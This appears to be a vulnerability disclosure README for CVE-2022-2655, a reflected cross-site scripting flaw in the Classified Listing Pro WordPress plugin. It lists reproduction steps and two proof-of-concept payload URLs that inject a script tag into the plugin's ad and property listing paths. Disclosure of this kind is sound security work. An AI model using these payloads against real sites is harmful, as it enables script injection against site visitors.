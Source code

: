 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

<b>To reproduce the failure, it is necessary to create at least one category and one ad</b>

## Proof of Concept:

  <img src="https://raw.githubusercontent.com/geozin/CVEs/main/CVE-2022-2655/POC%202-aLT.gif"/>
  
<b>Payloads</b>
```
https://<TARGET>/all-ads/?"><script>alert("Hacking Force")</script>
https://<TARGET>/all-properties/?"><script>alert("Hacking Force")</script> 
```

## References
[Hacking Force](https://blog.hackingforce.com.br)<br>
[WPScan](https://wpscan.com/vulnerability/acc9675a-56f6-411a-9594-07144c2aad1b)<br>
[CVE MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-2655)<br>
[Ithemes Wordpress Vulnerability Report](https://ithemes.com/blog/wordpress-vulnerability-report-august-24-2022/)<br>


